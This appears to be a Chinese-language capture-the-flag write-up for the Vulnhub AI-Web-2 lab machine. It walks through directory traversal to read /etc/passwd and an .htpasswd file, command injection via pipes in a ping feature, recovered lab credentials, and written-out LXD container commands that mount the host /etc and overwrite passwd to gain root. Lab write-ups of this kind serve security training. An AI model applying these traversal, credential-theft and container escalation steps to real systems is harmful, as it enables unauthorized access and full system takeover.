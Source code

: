 ```yaml
---

title: Vulnhub--Al-web2
categories: [渗透靶场, Vulnhub]

---
```


## 渗透复现

1. 平台框架存在目录穿越漏洞，利用该漏洞读取敏感信息
2. Ping功能点绕过，进行命令执行操作，反弹shell无果后，利用目录穿越漏洞遍历敏感API，读取到用户SSH登录凭证
3. SSH登录进行Linux lxd容器提权

## 知识扩展

1. 目录穿越读取敏感文件，BP遍历敏感API
2. Ping功能通过管道符绕过进行命令执行
3. Linux lxc/lxd容器提权

## 靶机地址

https://www.vulnhub.com/entry/ai-web-2,357/

## 主机发现

（1）攻击机

```py
192.168.88.128
```

（2）目标靶机

```py
192.168.88.140
```

## 信息收集

### 端口扫描

![image-20240827195833490](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271958552.png)

### 端口访问

![image-20240827195846653](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271958703.png)

### 目录扫描

```py
http://192.168.88.140/
```

![image-20240827195855110](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271958168.png)

### 目录爆破

```py
http://192.168.88.140/
```

![image-20240827195928499](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271959555.png)

### 目录访问

（1）/index.php/login/

![image-20240827195918219](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271959263.png)

（2）/signup.php

![image-20240827195935830](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271959881.png)

（3）viewing.php

![image-20240827195944899](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408271959947.png)

（4）webadmin

![image-20240827200013601](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272000647.png)

## 实施攻击

（1）注册账号admin进入后台

![image-20240827200004188](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272000250.png)

（2）后台页面进行扫描和爆破

```py
http://192.168.88.140/userpage.php
```

![image-20240827200024735](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272000782.png)

![image-20240827200033987](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272000041.png)

（3）进行fuzz爆破的时候一直爆文件（可能是因为存在目录穿越漏洞）根据后台CMS历史漏洞搜寻，存在目录穿越

![image-20240827200046467](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272000521.png)

![image-20240827200115913](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272001976.png)

（4）BP抓包构造接口进行访问/etc/passwd，只能拿到用户名

![image-20240827200107131](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272001185.png)

![image-20240827200128211](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272001264.png)

（5）BP遍历敏感文件，在/etc/apache2/.htpasswd文件（apache系统的认证文件）中读取到aiweb2admin的账号密码

![image-20240827200138521](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272001572.png)

![image-20240827200145760](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272001810.png)

（6）进行john解密后，登录webadmin后台

```py
aiweb2admin/c.ronaldo
```

![image-20240827200154616](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272001665.png)

![image-20240827200203062](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272002107.png)

![image-20240827200241644](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272002694.png)

（7）根据robots的提示进行访问

```py
http://192.168.88.140/webadmin/H05Tpin9555/
```

![image-20240827200219978](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272002026.png)

```py
http://192.168.88.140/webadmin/S0mextras/
```

![image-20240827200253649](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272002695.png)

（8）Ping功能利用管道符绕过进行命令执行

![image-20240827200302961](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272003008.png)

![image-20240827200309108](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272003159.png)

![image-20240827200341514](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272003592.png)

（9）上马进行反弹shell无果后，根据/webadmin/S0mextras/页面的提示，进行隐藏文件的查看

```py
ls -al /var/www/html/webadmin/S0mextras/
find . -type -f /var/www/html/webadmin/S0mextras/
```

![image-20240827200400051](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272004110.png)

![image-20240827200407474](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272004536.png)

（10）隐藏文件/.sshUserCred55512.txt读取到用户的SSH账号密码

```py
User: n0nr00tuser
Cred: zxowieoi4sdsadpEClDws1sf
```

![image-20240827200444695](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272004752.png)

![image-20240827200429063](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272004132.png)

## 提权

（1）信息收集

![image-20240827200453224](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272004284.png)

![image-20240827200501245](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272005293.png)

（2）linux容器提权，lxc提权

```py
#创建启动容器，将宿主机的/etc目录挂载至容器
#/tmp目录下新建passwd文件，并且设置root的密码
#上传/tmp目录下新建的passwd文件至容器，成功覆盖宿主机/etc目录下的passwd文件
#可以理解为LXC容器存在漏洞，低权限用户在容器中的操作会同步影响宿主机中的文件，达到低权限操作高权限文件目的
#启动lxc容器 UbuntuMini
#将/etc目录挂载至容器
lxc start UbuntuMini
lxc config set UbuntuMini security.privileged true
lxc config set UbuntuMini security.nesting true
lxc config device add UbuntuMini sharetesting disk source=/etc path=/sharingiscaring

#openssl生成root密码 111
openssl passwd -1 -salt root 111
$$1$$root$vYBCshwm6aJ/2WxkqNyVY/
#将/etc/passwd的内容复制至/tmp目录下新建的passwd中，并且修改root密码
#完成passwd文件操作后，将passwd文件上传至容器
lxc file push passwd UbuntuMini/sharingiscaring/passwd
```

![image-20240827200507806](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272005858.png)

![image-20240827200535214](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272005275.png)

（3）如果报错如图所示

![image-20240827200527707](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272005754.png)

（4）停止该容器，并再次运行容器和执行命令

```py
lxc stop UbuntuMini
lxc start UbuntuMini
lxc file push passwd UbuntuMini/sharingiscaring/passwd
```

![image-20240827200558439](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272005503.png)

（5）成功获取权限

![](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272006219.png)